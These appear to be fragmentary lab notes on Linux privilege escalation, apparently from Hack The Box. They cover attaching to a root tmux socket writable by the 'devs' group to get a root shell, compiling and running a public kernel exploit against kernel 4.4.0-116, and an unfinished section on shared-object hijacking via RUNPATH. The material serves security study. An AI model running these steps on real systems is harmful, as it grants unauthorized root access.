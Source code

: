 1. Check for any running `tmux` processes.
```
htb@NIX02:~$  ps aux | grep tmux
```
```
root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess
```
2. Confirm permissions.
```
ls -la /shareds 
```
```
srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
```
3. Review our group membership.
```
uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)
```
4. Finally, attach to the tmux session and confirm root privileges.
```
tmux -S /shareds
```
```
id
```
```
uid=0(root) gid=0(root) groups=0(root)
```
# uname -a
## example: Linux 4.4.0-116-generic
google  linux 4.4.0-116-generic exploit, we get the following exploit
```
https://vulners.com/zdt/1337DAY-ID-30003
```
```
gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```
```
./kernel_exploit
```
# Shared Object Hijacking
could have the following files inside the shared object folder
```
file.so
```
```
file.c
```
```
file.h
```
the shared object could be highlighted in red and does not have an extension
### Example: payroll is shared object
```
ls -la payroll
```
```
ldd payroll
```
notice any non-standard library
example is libshared.so
it is possible to load shared libraries from custom locations. One such setting is the RUNPATH configuration. Libraries in this folder are given preference over other folders. This can be inspected using the readelf utility.
```
```